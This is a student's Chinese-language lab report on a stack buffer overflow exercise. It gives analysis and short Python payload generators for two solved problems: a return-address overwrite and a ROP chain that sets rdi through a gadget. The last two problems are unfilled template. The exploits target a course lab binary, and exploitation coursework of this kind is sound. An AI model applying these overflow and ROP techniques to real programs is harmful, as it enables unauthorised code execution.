


# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：
1. 因为strcpy的目的地址在rdi,所以缓冲区起始地址是`rbp-0x8`。


2. 在x86-64中，func函数的返回地址位于`rbp+0x8`,所以从缓冲区到返回地址是16bytes，用`padding = b"A" * 16`覆盖这16bytes。

3. 因为func1函数的地址是`0x0000000000401216`,由main函数可知func的返回地址是`0000000000401362`,所以需要用`16 12 40`替换`62 13 40`,即`func1_address = b"\x16\x12\x40"`。
- 为什么不直接替换 16 12 这2字节？
因为 strcpy 会把字符串末尾的 \x00 写进去，导致跳转到`0x1216`的错误目标地址

4. 所以`payload = b"A" * 16 + b"\x16\x12\x40"`。
- **解决方案**：
    ```py
    padding = b"A" * 16

    func1_address = b"\x16\x12\x40"  

    payload = padding + func1_address

    with open("ans1.txt", "wb") as f:
        f.write(payload)

    print("Payload written to ans1.txt")
    ```
- **结果**：


### Problem 2:
- **分析**：
1. `memcpy`的函数原型：
    ```c
    void *memcpy(void *dest, const void *src, size_t n); // dest->rdi, src->rsi, n->rdx
    ```
    `func` 中使用 `memcpy` 将输入拷贝到 `rbp-0x8` 的 8 字节缓冲区，但长度固定为 `0x38`，必然溢出覆盖返回地址。

- `memcpy`不会被`\x00`截断，所以地址可以完整写8字节(不同于`strcpy`)

2. 从缓冲区到返回地址偏移是 16 字节，所以用`padding = b"A"*16` 覆盖到返回地址。

3. 本题 NX 开启，不能执行栈上代码，只能用 ROP。找到 `pop rdi; ret` gadget（`0x4012c7`），把参数 `0x3f8` 放入 `rdi`。

4. `func2` 会检查 `rdi == 0x3f8`，满足后输出 `Yes!I like ICS!` 并退出，因此 ROP 链为：`padding` -> `pop rdi; ret` -> `0x3f8` -> `func2(0x401216)`。

- **解决方案**：
    ```py
    # 把整数转成8字节小端序
    def p64(x):
        return x.to_bytes(8,"little")

    payload = b"A"*16 + p64(0x4012c7) + p64(0x3f8) + p64(0x401216)

    with open("ans2.txt", "wb") as f:
            f.write(payload)

    print("Payload written to ans2.txt")
    ```
- **结果**：


### Problem 3: 
- **分析**：...
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
- **结果**：附上图片

### Problem 4: 
- **分析**：体现canary的保护机制是什么
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
- **结果**：附上图片

## 思考与总结


## 参考资料

列出在准备报告过程中参考的所有文献、网站或其他资源，确保引用格式正确。
1. CTF Wiki. “Basic ROP.” https://ctf-wiki.org/pwn/linux/user-mode/stackoverflow/x86/basic-rop/
